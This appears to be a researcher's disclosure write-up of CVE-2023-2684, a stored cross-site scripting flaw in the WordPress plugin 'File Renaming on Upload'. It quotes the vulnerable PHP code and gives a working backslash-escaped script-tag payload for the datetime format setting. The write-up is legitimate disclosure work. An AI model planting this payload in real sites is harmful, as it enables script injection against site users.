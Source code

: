 # CVE-2023-2684

### Introdution

During my search for a plugin with the functionality to modify file names after uploading, I came across a particular plugin that seemed promising. As a security enthusiast, I decided to delve deeper into its code and settings to ensure it was robust and free from vulnerabilities.

### About my CVE

The CVE-2023-2684 vulnerability is a Stored Cross-Site Scripting (XSS) issue that exists within the plugin's setting panel. This plugin does not sanities and escape datetime format settings, which could allow high privilege users such as admin to perform Stored Cross-Site Scripting attacks even when the unfiltered\_html capability is disallowed.

**Affected WordPress plugin**: [https://wpscan.com/plugin/file-renaming-on-upload](https://wpscan.com/plugin/file-renaming-on-upload)

**CVE reference**: [https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting)

### Vulnerability Analysis

In the plugin's settings panel, there is a datetime setting rule for renaming filenames, which is accompanied by an example showing the output time

<figure><img src="../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

Without diving into knowledge of programming WordPress plugins and library usage, we can still exploit this vulnerability by carefully examining the following code snippet:

```
<?php
// class-datetime-option.php
public function add_fields( $fields, $section ) {
    $datetime = \DateTime::createFromFormat( 'U.u', number_format( microtime( true ), 6, '.', '' ) );
    $format   = $datetime->format( $this->get_option( $this->option_datetime_format, 'Y-m-d_H-i-s_u' ) );
    $new_options = array(
        array(
            'name'           => $this->option_id,
            'label'          => __( 'Datetime', 'file-renaming-on-upload' ),
            'desc'           => __( 'Enables Datetime rule', 'file-renaming-on-upload' ) . ' - ' . '<strong>{' . $this->option_id . '}</strong>',
            'desc_secondary' => __( "Gets the current date and time.", 'file-renaming-on-upload' ),
            'type'           => 'checkbox',
            'default'        => 'no',
        ),
        array(
            'name'        => $this->option_datetime_format,
            'desc'        => __( 'Datetime format ', 'file-renaming-on-upload' ) . sprintf( __( 'You can see more formats <a target="_blank" href="%s">here</a>', 'file-renaming-on-upload' ), 'http://php.net/manual/function.date.php' ) . '<br />' . sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format ),
            'type'        => 'text',
            'default'     => 'Y-m-d_H-i-s_u',
            'placeholder' => 'Y-m-d_H-i-s_u',
        ),
        array(
            'name' => 'datetime_separator',
            'type' => 'separator',
        ),
    );

    return parent::add_fields( array_merge( $fields, $new_options ), $section );
}
```

Let's examine the HTML tags used in the previous string of options: `sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format )`. We should consider that if the result of the datetime includes HTML tags, it could potentially introduce an XSS vulnerability.

To exploit this vulnerability, all we need to do is find a way to manipulate the datetime function to generate the desired HTML syntax. According to the instructions, we can use the formatting provided in this PHP function: [https://www.php.net/manual/en/function.date.php](https://www.php.net/manual/en/function.date.php).

```
<?php
// Assuming today is March 10th, 2001, 5:16:18 pm, and that we are in the
// Mountain Standard Time (MST) Time Zone

$today = date("F j, Y, g:i a");                 // March 10, 2001, 5:16 pm
$today = date("m.d.y");                         // 03.10.01
$today = date("j, n, Y");                       // 10, 3, 2001
$today = date("Ymd");                           // 20010310
$today = date('h-i-s, j-m-y, it is w Day');     // 05-16-18, 10-03-01, 1631 1618 6 Satpm01
$today = date('\i\t \i\s \t\h\e jS \d\a\y.');   // it is the 10th day.
$today = date("D M j G:i:s T Y");               // Sat Mar 10 17:16:18 MST 2001
$today = date('H:m:s \m \i\s\ \m\o\n\t\h');     // 17:03:18 m is month
$today = date("H:i:s");                         // 17:16:18
$today = date("Y-m-d H:i:s");                   // 2001-03-10 17:16:18 (the MySQL DATETIME format)
?>
```

To keep the characters intact, we need to append a backslash (\\) before each one. Hence, the payload for executing an XSS attack is as follows:

```
Y-m-d_H-i-s_u\<\s\c\r\i\p\t\>\a\l\e\r\t\(\d\o\c\u\m\e\n\t\.\d\o\m\a\i\n\)\<\/\s\c\r\i\p\t\>
```

<figure><img src="../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

That concludes the entire process of how I discovered this CVE. Thank you for taking the time to read through it.

Timeline

```
Publicly Published
2023-05-25 (about 22 days ago)
```

\
